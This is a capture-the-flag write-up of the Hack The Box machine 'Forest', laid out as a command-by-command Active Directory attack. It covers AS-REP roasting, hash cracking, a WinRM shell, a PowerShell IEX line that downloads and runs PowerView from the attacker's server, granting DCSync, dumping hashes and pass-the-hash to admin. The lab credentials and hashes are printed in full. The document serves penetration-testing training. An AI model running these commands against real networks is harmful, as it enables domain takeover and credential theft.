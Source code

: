 # Forest

## Preparation

Added IP in /etc/hosts as forest.htb

## Recon

Starting with nmap.
	Pulled Hostname and Host Version from SMB
		forest.htb.local
		Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)

### SMB

Siging Required
Anon Login, No shares
Passwords must be at least seven characters
```
crackmapexec smb forest.htb --pass-pol -u '' -p ''
```
### DNS

Zone transfer does not work

### LDAP
used ldapsearch
```
ldapsearch -h forest.htb
	Using MD5 auth
ldapsearch -h forest.htb -x
	anonymous login
ldapsearch -h forest.htb -x -b base namingcontexts
	pull domain component (dc)
ldapsearch -h forest.htb -x -b "DC=htb,DC=local"
	pull dc info
ldapsearch -h forest.htb -x -b "DC=htb,DC=local" '(objectClass=Person)'
	only pull people stuff
ldapsearch -h forest.htb -x -b "DC=htb,DC=local" '(objectClass=User)'
	only pull user stuff (only difference is dSCorePropagationData)
```

### NetBIOS-NS

### Kerberos

### RPC

```
for i in $(cat ~/ctfs/htb/forest/users.txt); do ./GetNPUsers.py -dc-ip forest.htb -request -format hashcat "htb.local/$i"; done;
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:1244770f69ae86ad76bc6198c97852ad$4ab177d23a7ca6a4e284b9515449acfb54471e8b73cc10d1a616ecff252192940ccb7e1a31003c01e0dcc2be0808204c379d9cf5df74ba2d15e693f1e29f2fbd236b5c9ae803308872223f9eaca93e2278e0c0f6793038c14f5407e4b3cd99048b6e862c6c61604220367f440a9feaf8805f6be639dd6c352b2c2372c2b7a445828a25e71ea46624488ed5b77c4cb7a174baedca2332fdb374a7559712a6fd74d49d78d6aaab6b619804878b5ea4fbf517b212b00dc54c212412847d078346b394bdd22a42a6c47fe4e6d66cb1d919a6d8650eb37f0d05d4bdf8c109a8edfaa0ed0b2d04407f

```
hashcat -a 0 -m 18200 --session forest-alfresco svc-alfresco.hash rockyou.txt
```	
s3rvice

smb:svc-alfresco:s3rvice

5985/tcp open  wsman
Trying Evil-WinRM
Got user!
```
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

Enumerated users from ldap and smb
	sebastien
	lucinda
	andy
	mark
	santi'
	svc-alfresco

Used impacket to get users who have Kerberos Pre-Auth disabled (Pre-Auth prevents bruteforing by requiring the sender to encrypt the timestamp with the users password hash, we do not know the users password and it would be cumbersome to brutforece in that way). Found svc-alfresco had Pre-Auth disabled (so we were able to query the Key Distrubution Center [KDC] and return a TGT encrypted with the users password)
```	
for i in $(cat ~/ctfs/htb/forest/users.txt); do ./GetNPUsers.py -dc-ip forest.htb -request -format hashcat "htb.local/$i"; done;
```
## Cracking the Perimeter

Used hashcat to crack the password (note: used hashcat --example-hashes to get mode 18200)
```
hashcat -a 0 -m 18200 --session forest-alfresco svc-alfresco.hash rockyou.txt
```

Tried to get a shell with cme, no dice, not admin
```
crackmapexec smb forest.htb -u svc-alfresco -p s3rvice
```

Checking for Win-RM
```
nmap -p 5985 forest.htb
```

It's open. Getting a shell.
```
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

## Privelege Escalation

Downloading PowerView from my Python web server
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/PowerView.ps1')
```

Storing new credentials as variables
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'montysecurity' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\monty', $SecPassword)
```

Giving myself DCSync rights, which allows us to mimic a DC and request passwords
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity monty -Rights DCSync
```

Login as new user and dump hashes
```
./secretsdump.py htb.local/monty:montysecurity@10.10.10.161
```

Pass the Hash with PSExec to get admin
```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@forest.htb
```